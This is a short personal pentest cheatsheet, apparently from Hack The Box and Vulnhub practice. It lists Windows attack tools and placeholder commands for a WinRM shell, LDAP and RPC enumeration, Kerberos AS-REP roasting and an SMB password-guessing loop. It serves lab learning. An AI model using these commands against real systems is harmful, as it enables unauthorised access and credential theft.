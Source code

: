 # pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/) and [Vulnhub](https://www.vulnhub.com/) experience.

## Windows

- Get a shell:```evil-winrm -i <ip> -u <username> -p <password>```

### Tools

- [LOLBAS](https://lolbas-project.github.io/#) _(GTFOBins version Windows)_
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) _(Une sorte de LinEnum pour Windows)_
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### LDAP

- ```ldapsearch -h <IP> -x -s base namingcontexts``` 
- ```ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"```

### Kerberos

- ```python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]```

### Samba

- ```smbclient -L //<IP>/<Sharename> -U "username%password"```
- ```for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done```

### RPC

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

## Linux

> **TODO**
